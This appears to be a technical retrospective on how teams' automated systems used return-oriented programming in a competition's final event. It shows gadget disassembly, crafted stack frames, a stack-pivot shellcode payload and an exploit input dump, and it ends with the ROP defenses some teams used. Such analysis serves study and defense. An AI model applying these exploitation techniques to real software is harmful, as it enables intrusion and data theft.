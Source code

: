 The Use of ROP in CFE
=====================

The relatively straight forward criteria for
proving vulnerabilities in CFE meant that long
ROP chains would not provide additional benefit for POVs.
Nevertheless, some ROP techniques were deployed by several
different teams in CFE.

Five CRS's demonstrated an ability to find simple ROP
gadgets necessary to adjust stack pointers and/or
load general registers for Type 1 POVs.

##Return to libc##
The most prolific user of ROP was Codejitsu.  They employed
a "return to libc" technique to perform Type 2 POVs on 
five different services without relying on the execution of
payloads.  Their POVs transferred execution to transmit libraries,
with a stack frame crafted to transmit data directly from
the protected memory page.  No other team did this in CFE.

###KPRCA\_00065 Codejitus vs TechX, round 33, throw 1###
Like all successful POVs for this service, the POV overwrites the
otp\_verify\_otp return address.  At the point of the overwrite,
the stack frame requires adjustment before the transmit wrapper
can be invoked.  The frame, prior to adjustment, is shown below.

    BAAAAFA8  080483D3  _otp_consume:loc\_80483D3
    BAAAAFAC  00000000  MEMORY:00000000
    BAAAAFB0  00000000  MEMORY:00000000
    ooo
    BAAAAFD4  00000000  MEMORY:00000000
    BAAAAFD8  08049D00  xmit_wrapper
    BAAAAFDC  00000000  MEMORY:00000000
    BAAAAFE0  00000001  MEMORY:00000001
    BAAAAFE4  4347C000  MEMORY:4347C000
    BAAAAFE8  00001000  MEMORY:00001000

The gadget at the end of the \_opt\_consume function provides 
the necessary adjustment:

    080483D3 add     esp, 24h
    080483D6 pop     esi
    080483D7 pop     ebp
    080483D8 retn
    080483D8 _otp_consume endp

At the point of the retn above, the stack pointer is BAAAFD8,
thus transfering execution to the entry
point of a transmit function wrapper with arguments on the
stack that cause the service to send the entire magic page, 
(0x1000 bytes from 0x4347C000).

###KPRCA\_00065 Codejitsu vs ForAllSecure, round 33, throw 1###
The POV described above was against a TechX RCB.  It appears the nature of 
the RCB required the Codejitsu CRS to adjust the stack.  In the very
same round, against the reference service run by ForAllSecure, the Codejitsu 
POV did not perform any stack adjustment.  The same overwrite of the
otp\_verify\_opt return address caused execution to transfer directly to the
start of the *transmit* function.  And, more impressively, the POV structured
the stack such that the return from the transmit function led to the start
of the *terminate* function, resulting in a silent exit from the Type 2 POV.


##Control of a general register##
All teams except CSDS and TechX employed a limited amount
of ROP to control the content of a general register and
adjust the stack pointer. In most cases, 
this resulted in Type 1 POVs, as in the following examples.

###NRFIN\_00063, Shellphish vs ForAllSecure round 59, throw 1###
As with all POVs for this service, a buffer overflow led to
overwriting a function pointer.  In this case,
the function pointer calls into a gadget at:

    0804E6F5 add     esp, 0BCh
    0804E6FB pop     esi
    0804E6FC pop     edi
    0804E6FD pop     ebx
    0804E6FE pop     ebp
    0804E6FF retn

Which returns to this gadget:

    0805253B pop     eax
    0805253C retn
    0805253C main endp

which SEGVs for the Type 1 POV, with eip:0xa19c96bf eax:0x498accea 

###NRFIN_00052 DeepRed vs ForAllSecure, round 84 throw 1###
Overwrite of a function pointer, transfers execution to:

    B7FFF00C mov     esp, eax
    B7FFF00E retn

Which is a payload whose execution is possible because the service 
allocates a buffer with the execute bit enabled (for no apparent reason).
The first instruction in the payload is a stack pivot that moves the 
stack to a location that the POV controls, i.e., containing data received 
at the same time that the function pointer was overwritten.  
The resulting stack contains:

    08060E3C  08048309  
    08060E40  584D455F 

Thus, the retn transfers execution to

    08048309 pop     ebp
    0804830A retn

Which results in a Type 1 POV, with eip:0x4e7c7450 ebp:0x584d455f 

##Convert to a Type 2 POV##
In their one and only use of ROP, Disekt turned execution control
into a Type 2 POV.

###CROMU_00073 Disekt vs DeepRed, round 29 throw 1###
Overwrote a return address
to transfer control to this gadget,
which ends with the equivalent of jmp ecx.

    08050313 mov     ecx, [edx]
    08050315 mov     ebx, [edx+4]
    08050318 mov     esp, [edx+8]
    0805031B mov     ebp, [edx+0Ch]
    0805031E mov     esi, [edx+10h]
    08050321 mov     edi, [edx+14h]
    08050324 test    eax, eax
    08050326 jnz     short loc_8050329
    08050328 inc     eax
    08050329 mov     [esp], ecx
    0805032C retn

The retn at 805032C transfers to this payload in the stack, which transmits from the magic page.

    BAAAAEBA push    3
    BAAAAEBC pop     eax
    BAAAAEBD cdq
    BAAAAEBE xor     ebx, ebx
    BAAAAEC0 mov     ecx, offset off_BAAA8CF0
    BAAAAEC5 mov     dl, 7Fh 
    BAAAAEC7 mov     esi, ebx
    BAAAAEC9 int     80h    
    BAAAAECB jmp     ecx

CodeJitsu and ForAllSecure also employed the same gadget, but to perform Type 1 POVs.
And in one case, CodeJitsu used the gadget to call into a transmit function 
to perform a Type 2 POV.

## ROP to what? ##
ForAllSecure threw a POV that took a long way home.

###KPRCA\_00065 ForAllSecure vs TechX, round 34, throw 1###

The main function calls a read function, resulting in
a single DECREE receive syscall reading this into memory:

    0804E760  00000000 44454553 41414141 0804D42B  ....SEEDAAAA+...
    0804E770  89127F71 B9DECDD2 41414141 00000000  q.......AAAA....
    0804E780  49524556 41414141 41414141 0000008D  VERIAAAAAAAA....
    0804E790  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
    0804E7A0  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
    0804E7B0  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
    0804E7C0  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
    0804E7D0  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
    0804E7E0  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
    0804E7F0  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
    0804E800  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
    0804E810  41414141 C3A4618B BAAAAFB0 AAAF4453  AAAA.a......SD..
    0804E820  AAAFA0BA 414141BA 41414141 41414141  .....AAAAAAAAAAA
    0804E830  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA


Some time later, main calls opt\_verify\_, which calls memcpy, overwriting
the low order byte of the opt\_verify\_ return pointer from:

    BAAAAFA8  080481A5  main_0+105

to 

    BAAAAFA8  08048153  main_0:loc_8048153

with the value coming from the receive buffer 0x804E767 (above).

The retn transferred execution smack into the middle 
of the complex main.  

About 842,000 instructions later, a call to memcpy overwrites the memcpy return address
yielding a stack frame of:

    BAAAAF38  BAAAAFA0  MEMORY:BAAAAFA0
    BAAAAF3C  BAAAAF38  MEMORY:BAAAAF38
    BAAAAF40  0804E821  .data:0804E821
    BAAAAF44  00000004  MEMORY:saved_fp
    BAAAAF48  080493B1  fflush+C1

Again, the source of the corrupt return pointer is the initial 
receive buffer.

The payload, (memcpy'd from the same receive buffer), at BAAAAFA0 is simply:

    BAAAAFA0 mov     esp, [ecx-5Ch] ; BAAAAEDC
    BAAAAFA3 retn

The memory reference is to address BAAAAEDC, containing
0x804E76C, which is part of the initial buffer read via
the DECREE receive syscall.  That address contains 0x804D42B,
which leads to a simple pop-ret:

    0804D42B pop     esi
    0804D42C retn
    0804D42C sub_804D413 endp

And that retn finally yields the Type 1 POV with eip:0xb9decdd2 esi:0x89127f71 

While an 800,000 instruction ROP gadget seems outrageous, it has been demonstrated that the initial
low-order-byte overwrite of the opt\_verify\_ function return address is superfluous, and thus not 
likely deliberate. As an experiment, the return address was manually patched, and the POV still succeeded.

ForAllSecure threw this POV against TechX.  Three other teams
employed more pedestrian POVs against that same RCB.

##ROP Defenses##
TechX generic defenses included an anti ROP technique in which their recompilation
of a service would insert a "nop" instruction following each "call".  They would then
replace each "retn" instruction with code that terminates the service if the destination 
is not a "nop".  They also inserted control flow cookies at addresses prior to function
pointer destinations, and checked for these cookies prior to following a function pointer.

Shellphish defended against corrupt function pointers, e.g., "call edx", by attempting to
ensure the destination is executable code; and refusing to call to a "pop" instruction.
